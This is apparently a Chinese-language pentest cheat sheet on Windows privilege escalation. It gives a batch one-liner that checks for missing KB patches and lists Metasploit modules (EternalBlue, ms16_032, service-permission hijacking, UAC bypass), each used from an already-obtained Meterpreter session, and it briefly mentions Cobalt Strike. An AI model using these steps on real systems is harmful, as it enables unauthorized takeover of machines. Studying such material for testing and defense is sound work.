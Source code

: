 **快速检测目标系统未打漏洞补丁**

```bash
systeminfo > temp.txt&(for %i in (KB3000061 KB3011780 KB3057191 KB3143141 KB4013389) do @type temp.txt|@find /i  "%i"|| @echo %i Not Installed!)&del /f /q /a temp.txt
```

补丁号根据自己需求加，利用的话`MSF`中有相关EXP或者自行搜索（`Github`， `searchsploit` ）

## 利用MSF提权

在拿到一个Meterpreter的前提下进行

```bash
#根据漏洞编号，枚举系统中未安装带的补丁
use post/windows/gather/enum_patches

#快速识别系统中可利用的漏洞
use post/multi/recon/local_exploit_suggester

#ms14_058
use exploit/windows/local/ms14_058_track_popup_menu

#ms15_051
exploit/windows/local/ms15_051_client_copy_image

#ms16_032
exploit/windows/local/ms16_032_secondary_logon_handle_privesc

#ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

**系统服务权限配置错误** 

如果meterpreter以管理员权限运行，该模块会创建一个新服务；

如果当前权限不允许创建服务，该模块会判断哪些文件或文件夹的权限有问题，并对其进行劫持。

```bash
#拿到一个本地管理员权限的meterpreter，可提升到SYSTEM
use exploit/windows/local/service_permissions
```

**BypassUAC（只适用Win7）**

>  UAC（User Account Control，用户账户控制），在执行影计算机运行的操作时，会弹窗提示用户要求认证。 

```bash
#拿到一个低权限本地用户的meterpreter
use exploit/windows/local/bypassuac
```

## 利用Cobalt Strike提权

Cobalt Strike 附带了一些绕过 `UAC` 的攻击，但如果当前用户不是管理员(Administrator)， 攻击会失效。
